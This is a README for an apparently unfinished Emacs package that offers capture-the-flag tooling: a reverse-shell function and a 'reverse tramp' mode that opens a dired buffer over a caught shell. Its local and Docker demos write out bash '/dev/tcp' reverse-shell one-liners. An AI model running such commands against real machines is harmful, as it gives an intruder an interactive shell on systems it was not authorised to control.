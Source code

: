 #+title: Cyb.el

WIP: Provide tools for CTF challenges.

* Features
** Reverse shell
#+BEGIN_SRC emacs-lisp
(cybel-revshell)
#+END_SRC
** Reverse tramp
still unstable
Known issues:
- vterm kills the connection
- shell-command works whereas async-shell-command does not
- eshell is unstable (executing does not work)
*** Local demo
In Emacs
#+BEGIN_SRC emacs-lisp
(find-file "/rev:127.0.0.1#1111:")
#+END_SRC
With another account run
#+BEGIN_SRC bash
bash -i >& /dev/tcp/127.0.0.1/1111 0>&1 ; echo $?
#+END_SRC

A dired buffer will open.
*** Docker demo
In Emacs
#+BEGIN_SRC emacs-lisp
(find-file "/rev:127.0.0.1#1111:")
#+END_SRC
in the hosts
#+BEGIN_SRC bash
docker run -it ubuntu bash
# spawns a container and attach itself to it
bash -i >& /dev/tcp/172.17.0.1/1111 0>&1 ; echo $?
# depending on your network config
# change the ip adreress as needed
#+END_SRC

A dired buffer will open in emacs, where the reverse shell is started.
then execute ~M-x shell-command~, ~whoami~ to confirm.
